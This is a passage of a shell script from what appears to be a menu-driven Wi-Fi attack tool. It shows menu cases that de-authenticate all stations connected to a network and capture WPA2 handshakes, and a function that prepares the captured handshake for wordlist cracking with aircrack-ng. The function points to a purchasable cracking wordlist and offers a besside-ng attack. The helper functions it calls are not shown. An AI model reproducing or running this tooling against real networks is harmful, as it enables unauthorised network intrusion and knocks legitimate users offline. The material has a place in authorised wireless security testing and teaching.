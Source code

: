 		"0")
		killAll

		adFileDump

		doSleepMessage "Preparing to Capture WPA Handshake...." "2"

		arAttackDeAuth
		captureHandshakeWPA2
		;;

		"1")
		doSleepMessage "Preparing to De-Authenticate All Connected Stations...." "1"
		arAttackDeAuth
		captureHandshakeWPA2
		;;
	esac

}


aircrackDecryptWPA2(){

	currentTask="aircrackDecryptWPA2"
	lastMenuID="aircrackDecryptWPA2"

	banner
	bannerStats

	doSleepMessage "Preparing captured handshake for aircrack-ng...." "4"

	banner
	bannerStats

	echo ""
	echo "You need a wordlist to crack the key!"
	echo ""
	echo "Current List Loaded:"
	echo ""
	$green
	echo "$wordlist"
	$white
	echo ""
	echo "You may press C and ENTER to load a custom list"
	echo ""
	echo ""
	echo "Another Example Wordlist Collection:"
	echo "https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm"
	echo ""
	echo ""
	echo "You may also press B and ENTER to run a besside-ng attack"
	echo ""
	echo ""
	echo "Press ENTER once you have a valid wordlist ready!"
	echo ""
	echo ""
